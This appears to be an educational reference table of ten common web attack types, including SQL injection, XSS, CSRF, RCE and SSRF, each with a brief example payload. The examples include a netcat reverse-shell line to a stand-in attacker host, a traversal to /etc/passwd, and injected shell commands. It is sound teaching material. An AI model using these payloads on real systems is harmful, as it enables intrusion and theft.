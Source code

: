 | Attack Type     | Description                                                                 | How It Works                                                                 | Example                                                              |
|------------------|-----------------------------------------------------------------------------|------------------------------------------------------------------------------|----------------------------------------------------------------------|
| SQL Injection (SQLi) | Injects malicious SQL into input fields to manipulate DB queries          | Attacker modifies query to extract or manipulate data                        | `SELECT * FROM users WHERE id='1' OR '1'='1'`                         |
| Cross-Site Scripting (XSS) | Injects malicious scripts into web pages                             | Scripts execute in the victim’s browser                                      | `<script>alert('XSS')</script>`                                      |
| Cross-Site Request Forgery (CSRF) | Forces users to execute unwanted actions                     | Exploits authenticated sessions by tricking browser                          | `<img src="http://target/delete?user=1">`                            |
| Remote Code Execution (RCE) | Executes attacker-controlled code on the server                     | Input is passed directly to system functions                                 | `; nc attacker.com 4444 -e /bin/bash`                                |
| Directory Traversal | Accesses files outside the web root                                      | Manipulates file paths using `../`                                           | `/download?file=../../etc/passwd`                                   |
| File Upload Vulnerability | Uploads malicious files to the server                               | Server allows unsafe file types or paths                                     | Uploading `shell.php` and accessing it via URL                      |
| Command Injection  | Injects system commands through user input                                 | Input passed unsanitized to shell commands                                   | `ping 127.0.0.1; whoami`                                             |
| Insecure Deserialization | Executes code by deserializing untrusted input                      | Malformed serialized objects trigger code execution                          | Java/PHP object with injected payload                                |
| Broken Access Control | Bypasses restrictions to access unauthorized data/functions             | Direct access to APIs/URLs without proper checks                             | Accessing `/admin` without being admin                               |
| Server-Side Request Forgery (SSRF) | Forces the server to make requests to internal services        | Input like URLs is used by the server to fetch resources                     | `http://localhost:8080/admin`                                       |
